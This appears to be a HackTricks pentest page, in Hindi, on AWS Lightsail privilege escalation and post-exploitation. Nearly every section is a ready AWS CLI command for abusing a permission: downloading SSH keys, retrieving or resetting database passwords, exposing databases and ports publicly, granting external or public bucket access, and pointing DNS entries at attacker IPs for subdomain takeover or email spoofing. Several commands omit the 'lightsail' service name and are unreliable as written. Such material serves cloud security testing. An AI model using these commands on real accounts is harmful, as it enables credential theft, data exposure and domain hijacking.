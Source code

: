 # AWS - Lightsail Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Lightsail

Lightsail के बारे में अधिक जानकारी के लिए देखें:

{{#ref}}
../aws-services/aws-lightsail-enum.md
{{#endref}}

> [!WARNING]
> यह ध्यान रखना महत्वपूर्ण है कि Lightsail **उपयोगकर्ता के IAM भूमिकाओं का उपयोग नहीं करता** बल्कि एक AWS प्रबंधित खाते का, इसलिए आप इस सेवा का दुरुपयोग करके प्रिवेस्क नहीं कर सकते। हालाँकि, **संवेदनशील डेटा** जैसे कोड, API कुंजी और डेटाबेस जानकारी इस सेवा में मिल सकती है।

### `lightsail:DownloadDefaultKeyPair`

यह अनुमति आपको उदाहरणों तक पहुँचने के लिए SSH कुंजी प्राप्त करने की अनुमति देगी:
```
aws lightsail download-default-key-pair
```
**संभावित प्रभाव:** इंस्टेंस के अंदर संवेदनशील जानकारी खोजें।

### `lightsail:GetInstanceAccessDetails`

यह अनुमति आपको इंस्टेंस तक पहुँचने के लिए SSH कुंजी उत्पन्न करने की अनुमति देगी:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**संभावित प्रभाव:** इंस्टेंस के अंदर संवेदनशील जानकारी खोजें।

### `lightsail:CreateBucketAccessKey`

यह अनुमति आपको बकेट तक पहुँचने के लिए एक कुंजी प्राप्त करने की अनुमति देगी:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**संभावित प्रभाव:** बकेट के अंदर संवेदनशील जानकारी खोजें।

### `lightsail:GetRelationalDatabaseMasterUserPassword`

यह अनुमति आपको डेटाबेस तक पहुँचने के लिए क्रेडेंशियल प्राप्त करने की अनुमति देगी:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**संभावित प्रभाव:** डेटाबेस के अंदर संवेदनशील जानकारी खोजें।

### `lightsail:UpdateRelationalDatabase`

यह अनुमति आपको डेटाबेस तक पहुँचने के लिए पासवर्ड बदलने की अनुमति देगी:
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
यदि डेटाबेस सार्वजनिक नहीं है, तो आप इसे इस अनुमति के साथ सार्वजनिक भी बना सकते हैं
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
**संभावित प्रभाव:** डेटाबेस के अंदर संवेदनशील जानकारी खोजें।

### `lightsail:OpenInstancePublicPorts`

यह अनुमति इंटरनेट के लिए पोर्ट खोलने की अनुमति देती है।
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**संभावित प्रभाव:** संवेदनशील पोर्ट्स तक पहुँच।

### `lightsail:PutInstancePublicPorts`

यह अनुमति इंटरनेट पर पोर्ट खोलने की अनुमति देती है। ध्यान दें कि कॉल किसी भी पोर्ट को बंद कर देगी जो इसमें निर्दिष्ट नहीं है।
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**संभावित प्रभाव:** संवेदनशील पोर्ट्स तक पहुँच।

### `lightsail:SetResourceAccessForBucket`

यह अनुमति एक इंस्टेंस को बिना किसी अतिरिक्त क्रेडेंशियल के एक बकेट तक पहुँच देने की अनुमति देती है।
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
**संभावित प्रभाव:** संवेदनशील जानकारी वाले बकेट्स तक संभावित नई पहुंच।

### `lightsail:UpdateBucket`

इस अनुमति के साथ एक हमलावर अपने AWS खाते को बकेट्स पर पढ़ने की पहुंच दे सकता है या यहां तक कि बकेट्स को सभी के लिए सार्वजनिक बना सकता है:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**संभावित प्रभाव:** संवेदनशील जानकारी वाले बकेट्स तक संभावित नई पहुंच।

### `lightsail:UpdateContainerService`

इन अनुमतियों के साथ, एक हमलावर कंटेनर सेवा से निजी ECRs तक पहुंच प्रदान कर सकता है।
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**संभावित प्रभाव:** निजी ECR से संवेदनशील जानकारी प्राप्त करें

### `lightsail:CreateDomainEntry`

इस अनुमति के साथ एक हमलावर उपडोमेन बना सकता है और इसे अपने स्वयं के IP पते की ओर इंगित कर सकता है (उपडोमेन अधिग्रहण), या एक SPF रिकॉर्ड तैयार कर सकता है जो उसे डोमेन से ईमेल धोखा देने की अनुमति देता है, या यहां तक कि मुख्य डोमेन को अपने स्वयं के IP पते पर सेट कर सकता है।
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**संभावित प्रभाव:** एक डोमेन का अधिग्रहण

### `lightsail:UpdateDomainEntry`

इस अनुमति के साथ एक हमलावर उपडोमेन बना सकता है और इसे अपने स्वयं के IP पते की ओर इंगित कर सकता है (उपडोमेन अधिग्रहण), या एक SPF रिकॉर्ड तैयार कर सकता है जो उसे डोमेन से ईमेल धोखा देने की अनुमति देता है, या यहां तक कि मुख्य डोमेन को अपने स्वयं के IP पते पर सेट कर सकता है।
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**संभावित प्रभाव:** एक डोमेन पर कब्जा करना

{{#include ../../../banners/hacktricks-training.md}}
